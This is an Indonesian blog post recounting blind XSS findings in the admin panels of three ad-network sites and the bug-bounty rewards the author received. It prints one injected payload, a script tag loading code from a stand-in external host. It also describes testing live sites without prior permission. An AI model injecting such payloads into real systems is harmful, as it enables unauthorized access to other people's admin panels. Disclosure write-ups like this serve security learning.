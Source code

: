 ```yaml
---
layout: post
title: Mengintip Admin Panel situs Ad Networks
date: 2018-08-22 04:10:00 PM
permalink: project/2018-08-22-mengintip-admin-panel-situs-ad-networks/
author: xhellc0de
categories: pentesting
tags: vulnerability xss blind-xss bug-bounty
---
```

![Image of Ad Networks](https://noobsec.org/images/ad_network.png)

Karena kehidupan yang semakin sulit, banyaknya biaya hidup yang harus dipenuhi maka saya pun mencoba untuk mencari pendapatan tambahan dari Internet *(curhat)*. Salah satu yang saya lakukan adalah mencari uang dari situs periklanan atau biasa dikenal dengan Ad Networks. Ada banyak sekali situs Ad Networks di jagat internet ini, mulai dari yang paling terkenal milik Google yaitu Google Adsense, dan situs-situs Ad Networks lainnya.

Beberapa waktu lalu, saldo pada situ Ad Networks saya sudah mencapai batas yang dapat di-withdraw. Dan saya pun segera melakukan penarikan pada situs tersebut. Ketika mau melakukan withdraw, saya iseng mengganti nama pada profile dengan menambahkan payload XSS didalamnya. Berharap payload tersebut akan tereksekusi di panel admin dan saya bisa melihat-lihat dalemannya hehe.

Selang beberapa waktu, benar saja payload saya tereksekusi di admin panel Ad Networks tersebut. Saya berhasil melakukan **Blind XSS** pada situs tersebut.

![Image of Ad Networks Panel](https://noobsec.org/images/b1_panel.png)

**Blind XSS** merupakan salah satu jenis XSS yang cukup unik. Kita tidak bisa melihat kapan dan dimana payload akan tereksekusi, bahkan sering kali tidak tereksekusi. Maka dari itu disebut Blind, alias buta. Payload yang kita buat umumnya tereksekusi di aplikasi lain yang saling terhubung pada satu database.

Untuk kasus yang saya temukan ini, saya memasukan payload XSS pada Member Area Ad Networks, lalu saya melakukan **Wihtdrawal Request** yang dimana pastinya diperlukan pengecekan secara manual oleh Admin sebelum melakukan proses **Wihtdrawal** yang saya minta. Maka Admin membuka halaman yang berisi **Withdrawal Request** pada situsnya, dan pada halaman tersebut ada **Field Full Name** yang sebelumnya saya isi dengan Payload XSS pada Member Area saya.

Berikut ini contoh source code dari Field Full Name setelah saya isi payload XSS:

```
<td style="color:black;cursor:pointer;" userid="x" class="userid userid_x">John Smith"&gt;<script src="https://malicious.script/"></script></td>
```

Karena saya merupakan orang yang jujur dan baik hati. Maka saya segera melapor pada Admin situs tersebut terkait bug yang saya temukan. Tidak lupa pula menanyakan apakah ada reward yang saya dapatkan haha..

![Image of Ad Networks Email](https://noobsec.org/images/b1_email.png)

Tidak lama admin dari situs tersebut membalas email dan memberikan saya reward terkahit bug yang saya temukan. Lumayan, Withdraw nya jadi dobel hehe..

**Dari bug ini saya diberi reward sebesar $250. (Alhamdulillah)**

Tidak berhenti sampai disitu, saya pun mencoba hal yang sama pada situs Ad Networks yang lain. Karena situs mereka adalah situs penghasil uang, sudah pasti mereka punya uang dan mungkin mau memberi reward seperti pada situ yang awal tadi.

![Image of Kamen](https://noobsec.org/images/kamen.gif)

Pada situs berikutnya, payload XSS saya masukan pula pada field Full Name dan tereksekusi di Halaman **Channel List** pada panel admin. Halaman itu berisi daftar dari publisher yang ada pada situs tersebut. Walaupun pada awalnya mereka menyangkal dan tidak percaya bahwa ada bug di situs mereka, akhirnya mereka pun percaya setelah saya gunakan **alert** untuk memunculkan popup pada admin panel mereka XD

![Image of Ad Networks Panel](https://noobsec.org/images/b2_panel.png)

**Dari bug ini saya diberi reward sebesar $50. (Alhamdulillah)**

Yang terakhir saya menemukan bug yang sama pada situs Ad Networks asal Rusia. Kali ini payload tereksekusi di halaman Affiliates pada **Field User Skype**. Karena pada member Panel nya terdapat field Skype dan hanya field itu yang bisa diisi dengan payload XSS, field lainnya diproteksi sehingga tidak bisa memasukan HTML Tag.

![Image of Ad Networks Panel](https://noobsec.org/images/b3_panel.png)

Tidak seperti situs sebelumnya, admin situs ini sangat ramah dan sangat cepat tanggap. Bahkan ini merupakan **Bounty Hunting** tercepat yang saya alami. Proses dari mengirim report sampai diberi reward memakan waktu kurang dari 2 jam!

![Image of Ad Networks Email](https://noobsec.org/images/b3_email1.png)

![Image of Ad Networks Email](https://noobsec.org/images/b3_email2.png)

```
15 Aug 2018 22:23 = Reported
15 Aug 2018 23:06 = Rewarded
```

**Dari bug ini saya diberi reward sebesar $100. (Alhamdulillah)**

Begitulah cerita singkat saya *mengintip* admin panel ada situ Ad Networks. Semoga bisa memberi inspirasi bagi kalian semua para tukang ngintip wkwk. Mengintiplah untuk sesuatu yang baik, karena segala sesuatu yang baik akan membawa hasil yang baik pula.

Referensi:

https://www.acunetix.com/websitesecurity/detecting-blind-xss-vulnerabilities/
